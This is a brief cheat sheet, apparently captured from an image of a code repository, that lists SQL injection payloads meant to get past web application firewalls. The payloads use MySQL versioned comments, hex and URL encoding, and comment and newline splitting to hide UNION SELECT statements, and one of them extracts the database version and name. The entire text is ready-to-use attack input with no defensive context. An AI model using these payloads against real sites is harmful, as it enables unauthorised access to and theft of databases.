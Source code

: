 ```
/*!50000un0x696fn*/+/*!12345AlL*/(/*!50000se0x6c65ct*/+1)+--+

/*!50000%75%6e%69on*/ %73%65%6cect 1,2,3,4...

/*!12345UnioN*//**/(/*!12345seLECT*//**/1)+--

/*!12345#qa%0A#%0AUnIOn*/(/*!12345#qa%0A#%0ASeleCt*//**/1)+--+

```

### Sql inyection payload + comment + hex/unhex

`/*!50000select*/unhex(hex(/*!12345concat*/(0x223e,version(),0x223e,database())))`

### Sql inyection payload + url encode 

`+/*!12120%55%6e%49%6f%4e*/+(%53%65%4c%65%43%74+111,222,333,database(),555,...)+--+`




